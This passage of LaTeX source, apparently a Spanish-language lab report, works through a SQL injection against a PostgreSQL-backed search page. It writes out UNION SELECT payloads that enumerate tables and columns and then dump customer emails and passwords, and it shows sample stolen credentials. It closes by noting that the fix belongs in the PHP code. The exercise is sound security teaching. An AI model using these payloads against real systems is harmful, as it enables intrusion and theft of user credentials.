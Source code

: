 \documentclass{article}
\begin{document}
Aquí vimos que probablemente la tabla \texttt{customers}, asociada a la clave primaria \texttt{customers\_pkey}, es la que nos interesaba. Confirmamos que esa tabla existía y obtenemos su \textit{oid} con

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT oid || ',' || relname AS movietitle
	FROM pg_class WHERE RELNAME='customers';--
\end{Verbatim}

La salida \texttt{30345,customers} nos confirma que la tabla existe y nos da su \textit{oid}, con lo que podemos encontrar sus columnas. Para ello usamos la siguiente cadena

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT attname AS movietitle
	FROM pg_attribute WHERE attrelid=30345;--
\end{Verbatim}

Obtenemos así todas las columnas, y vemos dos que nos interesan: \texttt{email} y \texttt{password}. El último paso es obtener los correos y contraseñas de todos los clientes de la web:

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT email || ',' || password AS movietitle FROM customers;--
\end{Verbatim}

Los resultados fueron suficientes:

\begin{Verbatim}
    aachen.aleppo@mamoot.com,snyder
    aaron.ripper@potmail.com,slob
    abaci.zibo@potmail.com,ebro
    aback.soar@potmail.com,jelly
    abacus.argosy@potmail.com,helmut
    abaft.viand@potmail.com,pony
    abase.jul@kran.com,dioxin
    ...
\end{Verbatim}

En cuanto a las preguntas planteadas en el enunciado, de ninguna de las dos formas propuestas se podría resolver el problema: debe ser modificado en el código PHP como explicábamos en el apartado anterior. En cualquiera de los dos casos se podría seguir enviando la cadena de búsqueda que se quisiese usando herramientas especializadas, como los comandos de terminal \texttt{curl} o \texttt{wget} o la extensión \href{https://addons.mozilla.org/En-us/firefox/addon/httprequester/}{HTTPRequester} de Firefox, que permiten realizar peticiones GET o POST con los parámetros que quiera el usuario.
\end{document}
